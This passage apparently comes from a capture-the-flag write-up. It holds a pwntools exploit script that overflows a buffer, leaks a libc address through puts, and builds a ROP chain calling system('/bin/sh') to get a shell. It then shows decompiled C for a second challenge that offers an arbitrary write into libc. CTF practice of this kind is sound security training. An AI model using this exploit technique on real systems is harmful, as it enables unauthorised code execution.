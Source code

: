 ```python
p.sendline("YES")

p.recvuntil("Now answer to prove you're down with the struggle: ")
rdi=0x0000000000400983
puts_plt=0x00000000004005f0
puts_got=0x601210
p.sendline(b"a"*0x40+p64(0)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(exe.symbols["quest"]))
p.recvuntil("out? > \n")

leak=u64(p.recv(6).ljust(8,b"\x00"))
libc.address=leak-0x80970
log.info(hex(libc.address))
debug()

p.sendline(b"a"*0x40+p64(0x0000000000601000+0xe00)+p64(rdi)+p64(next(libc.search(b"/bin/sh\x00")))+p64(0x0000000000400913)+p64(libc.symbols["system"])+p64(exe.symbols["quest"]))

p.interactive()
```

# www

```C
unsigned __int64 vuln()
{
  char v1; // [rsp+Fh] [rbp-131h] BYREF
  _QWORD *v2; // [rsp+10h] [rbp-130h] BYREF
  __int64 v3; // [rsp+18h] [rbp-128h] BYREF
  _QWORD *v4; // [rsp+20h] [rbp-120h] BYREF
  _QWORD *v5; // [rsp+28h] [rbp-118h] BYREF
  unsigned __int64 v6; // [rsp+138h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  get_libc_range(&v4, &v5);
  if ( !v4 || !v5 )
  {
    puts("Failed to find libc range!");
    exit(1);
  }
  printf("Libc range: %p - %p\n", v4, v5);
  do
  {
    while ( 1 )
    {
      printf("where ? ");
      __isoc99_scanf("%lx", &v2);
      if ( v2 >= v4 && v2 < v5 )
        break;
      puts("Error: Address not in libc range!");
    }
    printf("what ? ");
    __isoc99_scanf("%lx", &v3);
    *v2 = v3;
    printf("Do you want to write again? (y/n): ");
    __isoc99_scanf(" %c", &v1);
  }
  while ( v1 == 121 );
  return v6 - __readfsqword(0x28u);
}
```
